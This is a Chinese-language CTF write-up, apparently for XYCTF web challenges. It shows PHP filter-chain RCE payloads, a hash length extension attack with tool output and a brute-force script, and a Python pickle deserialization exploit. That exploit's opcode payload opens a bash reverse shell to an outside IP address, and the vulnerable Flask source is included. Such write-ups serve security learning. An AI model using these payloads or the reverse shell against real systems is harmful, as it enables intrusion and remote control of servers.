CODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

POST:
cmd=system('cat /flag');
```

但是发现读取flag没读出来，看到一个readflag，运行一下

```
cmd=system('/readflag');
```

然后就读出来了

后来发现readflag是一个c文件，这个文件可以读取并输出flag的值，所以直接运行就完事了

## 连连看到底是连连什么看

点击about看到一个参数file，测一下/etc/passwd看看有没有任意文件读取，发现出来一个文件what's_this.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$p=$_GET['p'];

if(preg_match("/http|=|php|file|:|\/|\?/i", $p))
{
    die("waf!");
}

$payload="php://filter/$p/resource=/etc/passwd";

if(file_get_contents($payload)==="XYCTF"){
    echo file_get_contents('/flag');
}

```

其实和刚刚的题目一样的，用脚本生成一下XYCTF

但是发现这里的强比较，以为着我们必须让内容完全为XYCTF

原先的payload

```
?p=convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```



算了看不懂，看别人的wp吧

```
?p=convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-decode|convert.base64-decode
```

## give me flag

```php
<?php
include('flag.php');
$FLAG_md5 = md5($FLAG);
if(!isset($_GET['md5']) || !isset($_GET['value']))
{
    highlight_file(__FILE__);
    die($FLAG_md5);
}

$value = $_GET['value'];
$md5 = $_GET['md5'];
$time = time();

if(md5($FLAG.$value.$time)===$md5)
{
    echo "yes, give you flag: ";
    echo $FLAG;
}
31b81f48a29befbbe01d322512a8a100
```

哈希长度拓展攻击https://ciphersaw.me/2017/11/12/hash-length-extension-attack/，emmm看不懂，直接用工具一把梭了

工具:https://github.com/shellfeel/hash-ext-attack

```sh
root@dkhkdmY30sV7Pxs8awAZ:/opt/hash-ext-attack# python3 hash_ext_attack.py 
2025-07-16 07:34:47.220 | DEBUG    | common.md5_manual:__init__:17 - init......
请输入已知明文：
请输入已知hash： 31b81f48a29befbbe01d322512a8a100
请输入扩展字符: 1752651375
请输入密钥长度：43
2025-07-16 07:36:51.547 | INFO     | common.HashExtAttack:run:65 - 已知明文：b''
2025-07-16 07:36:51.548 | INFO     | common.HashExtAttack:run:66 - 已知hash：b'31b81f48a29befbbe01d322512a8a100'
2025-07-16 07:36:51.548 | INFO     | common.HashExtAttack:run:68 - 新明文：b'\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00X\x01\x00\x00\x00\x00\x00\x001752651375'
2025-07-16 07:36:51.549 | INFO     | common.HashExtAttack:run:69 - 新明文(url编码)：%80%00%00%00%00%00%00%00%00%00%00%00%00X%01%00%00%00%00%00%001752651375
2025-07-16 07:36:51.549 | INFO     | common.HashExtAttack:run:71 - 新hash:26c02b957a2e0467a3eeaa52823fa233
```

然后用脚本爆一下

```python
import requests

url = "http://gz.imxbt.cn:20960/?md5=cc2131f5409a81b2fcf18102b8d0e07e&value=%80%00%00%00%00%00%00%00%00%00%00%00%00X%01%00%00%00%00%00%00"
while True:

    r = requests.get(url)
    if "yes, give you flag" in r.text:
        print(r.text)

        exit(0)
```

## baby_unserialize

源码中有`<!--try /ser-->`，访问看看



一个base64的反序列化口子，但是不知道参数，分别用get和post传看看



看到payload就是参数了，盲猜一手java反序列化，先用URLDNS看看能不能出网

## login

有一个register.php路由，注册后登录进去发现没东西，但是在cookie中发现一个RememberMe的cookie

```http
gASVOQAAAAAAAACMA2FwcJSMBUxvZ2lulJOUKYGUfZQojARuYW1llIwFYWRtaW6UjANwd2SUjAhhZG1pbjEyM5R1Yi4=
```



有东西，然后看到是python，一坨AAAA，猜测这里是pickle的特征，估计是dumps之后并进行base64加密的cookie

写一个test试一下

```python
import base64
import pickle
import os

class test :
    def __reduce__(self):
        command = r"whoami"
        return (os.system,(command,))
a = test()
test = pickle.dumps(a)
print(base64.b64encode(test))
```

但是传进去后提示waf，估计是`__reduce__`被过滤了，那我们写字节码吧

```python
import base64

payload = '''cos
system
(S"whoami"
tR.
'''
print(base64.b64encode(payload.encode()))
```

发现还是不行，估计还过滤了东西，最后测出来过滤了system和import等，用popen吧

```python
import base64
opcode = b'''(S'bash -c "bash -i >& /dev/tcp/124.223.25.186/2333 0>&1"'
ios
popen
.'''

print(base64.b64encode(opcode))
```

传入后发现返回5，那就直接反弹shell



先看看源码吧

```python
import hashlib
import os
import pickle
import base64
import hashlib
from flask import Flask,request,session,render_template,redirect,make_response

class Login:
    def __init__(self,name,pwd):
        self.name = name
        self.pwd = pwd


def checkLogin(users,name,pwd):
    for user in users:
        if user.name == name and user.pwd == user.pwd:
            return True
    return False

def getUserclass(users,name,pwd):
    for user in users:
        if user.name == name and user.pwd == user.pwd:
            return user
    return None

def waf(data):
    if b'R' in data or b'r' in data:
        return False
    return True


 
app=Flask(__name__)
users = []

# pickle
@app.route('/',methods=['GET','POST'])
@app.route('/index.php',methods=['GET','POST'])
def index():
    try:
        RememberMe = request.cookies.get('RememberMe')
        print(RememberMe)
        pickle_data = base64.b64decode(RememberMe)
        print(pickle_data)
        if waf(pickle_data):
            print(pickle_data)
            user_class = pickle.loads(pickle_data)
            #print(user_class)
            return "hello world!  {}".format(user_class.name)
        else:
            return "waf!!!!"      
    except:
        return redirect("login.php")
    
# 登录
@app.route('/login.php',methods=['GET','POST'])
def login():
    if request.method=="POST" and (username:=request.form.get('username')) and (password:=request.form.get('password')):
        if type(username)==str and type(password)==str and checkLogin(users,username,password):
            user_class = getUserclass(users,username,password)
            RememberMe = base64.b64encode(pickle.dumps(user_class))
            res=make_response("Login success! <a href='/'>Click here to redirect.</a>");
            res.set_cookie('RememberMe',RememberMe.decode('utf-8'))
            return res
        else:
            return "Login fail!"
    return render_template("login.html")

# 注册
@app.route('/register.php',methods=['GET','POST'])
def register():
    if request.method=="POST" and (username:=request.form.get('username')) and (password:=request.form.get('password')):
        if type(username)==str and type(password)==str:
            for user in users:
                if user.name == username:
                    return "Register fail!"
            users.append(Login(username,password))
            return "Register successs! Your username is {username}.".format(username=username)
        else:
            return "Register fail!"
    return render_template("register.html")
    
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```
